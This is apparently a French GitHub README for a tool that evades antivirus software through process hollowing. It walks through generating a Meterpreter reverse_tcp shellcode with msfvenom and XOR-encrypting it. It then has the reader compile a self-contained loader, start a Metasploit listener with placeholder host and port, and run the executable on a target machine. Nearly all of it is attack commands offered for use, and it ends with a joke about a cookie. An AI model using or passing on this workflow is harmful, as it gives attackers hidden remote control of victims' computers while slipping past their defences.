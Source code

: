 # Bypass-AV-ProcessHollowing



Ce projet est basé sur le dépôt Github de chvancooten :
https://github.com/chvancooten/OSEP-Code-Snippets





#Utilisation :

Générer un meterpreter Metasploit sous la forme d'un shellcode avec msfvenom :
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp


Créer un nouveau projet DotNet dans Visual Studio Code :
dotnet new console


Remplacer le contenu de Program.cs par le contenu du fichier XorCipher.cs et remplacer le shellcode par celui généré avec msfvenom


Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true


Exécuter le fichier compilé dans une invite de commande :
.\XorCipher.exe


Créer un second projet DotNet dans une autre instance de Visual Studio Code :
dotnet new console


Remplacer le contenu de Program.cs par le contenu du fichier ProcessHollowing.cs et remplacer le shellcode par celui généré avec XorCipher.exe


Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true


Lancer un listener dans la console metasploit :
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <SERVER>
set lport <PORT>
exploit


Exécuter le fichier ProcessHollowing.exe sur le poste cible puis savourer un délicieux cookie aux pépites de chocolat :)
